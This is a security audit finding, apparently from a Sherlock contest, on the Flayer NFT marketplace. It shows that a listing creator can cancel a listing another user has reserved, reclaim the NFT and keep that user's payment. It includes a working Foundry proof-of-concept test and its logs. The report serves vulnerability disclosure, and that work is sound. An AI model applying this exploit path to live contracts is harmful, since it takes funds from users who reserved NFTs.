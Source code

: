Massive Emerald Python

High

# Reserved NFTs can be canceled and withdrawn by the initial listing creator

### Summary

The Flayer protocol allows users to reserve NFTs which they can't fully pay at the moment via the [reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690-L759) function, users that reserve NFTs pay interest rate, and have to provide initial collateral. The user reserving the NFT also has to pay the current listed price of the NFT minus the floor price to the user who created the listing. However, right after the NFT is reserved, the user who created the initial listing can cancel it via the [cancelListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414-L470) function, and withdraw the NFT and in the same time collect the difference between the price he set for his NFT and the floor price(which is 1e18 * 10**token denomination).  First of all this breaks a core invariant of the protocol, secondly it results in the user who canceled the listing directly stealing funds from the user who reserved the NFT.

### Root Cause

There are no checks in the [cancelListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414-L470) function that prevent the owner of the listing from canceling and withdrawing an NFT that was reserved by someone else. 

### Internal pre-conditions

1. NFT collection is created and initialized
2. Some user creates a liquid listing
3. Another users decides to reserve an NFT, that was put on a market as a liquid listing

### External pre-conditions

_No response_

### Attack Path

1. A malicious user creates a listing, with a floorMultiplier of **200**
2. Bob sees that listing, but doesn't have the money to buy it, but deep down he knows that owning this NFT will change his life, so he decides to reserve it via the [reserve()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L690-L759) function, he pays to alice the difference between the listingPrice and the listingFloorPrice which is 2e18 - 1e18 = 1e18, additionally he provides 0.5e18 as collateral. So in total bob has spend 1.5e18 tokens so far. Now he has the NFT as reserved and will have to pay some interest until he decides to unlock his protected listing(this is not important for this issue).
3. The malicious user sees that his NFT has been reserved, and decides to call the  [cancelListings()](https://github.com/sherlock-audit/2024-08-flayer/blob/main/flayer/src/contracts/Listings.sol#L414-L470) function, in order to withdraw his NFT.
4. At the end of the attack the malicious user has received 1e18 tokens, owns his NFT, and bob has paid 1.5e18 tokens and can't withdraw the NFT, as it is no longer owned by the ``Locker.sol`` contract. 

### Impact
Users that reserve an NFT should be able to unlock it at any given time, as long as they pay their interest rate. A malicious user can cancel a listing that was reserved, and thus still funds from the user who reserved the NFT, and get back his NFT and generate a profit. 

### PoC
[Gist](https://gist.github.com/AtanasDimulski/95fe424bd5c38a08b7d12cc5c3911878)
After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/95fe424bd5c38a08b7d12cc5c3911878) add the following test to the ``AuditorTests.t.sol`` file:
```solidity
    function test_ReservingCanBeCanceledAndWithdrawn() public {
        vm.startPrank(alice);
        collection1.mint(alice, 12);
        collection1.setApprovalForAll(address(listings), true);

        Listings.Listing memory listingAlice = IListings.Listing({
            owner: payable(alice),
            created: uint40(block.timestamp),
            duration: 10 days,
            floorMultiple: 200
        });

        uint256[] memory tokenIdsAlice = new uint256[](1);
        tokenIdsAlice[0] = 12;
        IListings.CreateListing[] memory createLisings = new IListings.CreateListing[](1);       
        IListings.CreateListing memory createListing = IListings.CreateListing({
                collection: address(collection1),
                tokenIds: tokenIdsAlice,
                listing: listingAlice
        });
        createLisings[0] = createListing;
        listings.createListings(createLisings);    
        vm.stopPrank();

        vm.startPrank(bob);
        collection1.mint(bob, 13);
        collection1.mint(bob, 14);
        collection1.setApprovalForAll(address(locker), true);
        uint256[] memory tokenIdsBob = new uint256[](2);
        tokenIdsBob[0] = 13;
        tokenIdsBob[1] = 14;
        locker.deposit(address(collection1), tokenIdsBob);
        console2.log("Bob token balance: ", collectionTokenA.balanceOf(bob));
        collectionTokenA.approve(address(listings), type(uint256).max);
        (, uint256 listingPrice) = listings.getListingPrice(address(collection1), 12);
        console2.log("The full price of the NFT that bob wants to reserve: ", listingPrice);
        listings.reserve(address(collection1), 12, 0.5e18);
        
        /// @notice bob will have to pay the difference between the full price of the NFT and the floor price 2e18 - 1e18 = 1e18, and pay 0.5e18 as collateral
        console2.log("Bob token balance after he reservers: ", collectionTokenA.balanceOf(bob));
        vm.stopPrank();

        vm.startPrank(alice);
        collectionTokenA.approve(address(listings), type(uint256).max);
        listings.cancelListings(address(collection1), tokenIdsAlice, false);
        assertEq(collection1.ownerOf(12), alice);
        console2.log("Token balance of alice: ", collectionTokenA.balanceOf(alice));
        console2.log("Token balance of bob: ", collectionTokenA.balanceOf(bob));
        vm.stopPrank();
    }
```

```solidity
Logs:
  Bob token balance:  2000000000000000000
  The full price of the NFT that bob wants to reserve:  2000000000000000000
  Bob token balance after he reservers:  500000000000000000
  Token balance of alice:  1000000000000000000
  Token balance of bob:  500000000000000000
```

To run the test use: ``forge test -vvv --mt test_ReservingCanBeCanceledAndWithdrawn``
### Mitigation

_No response_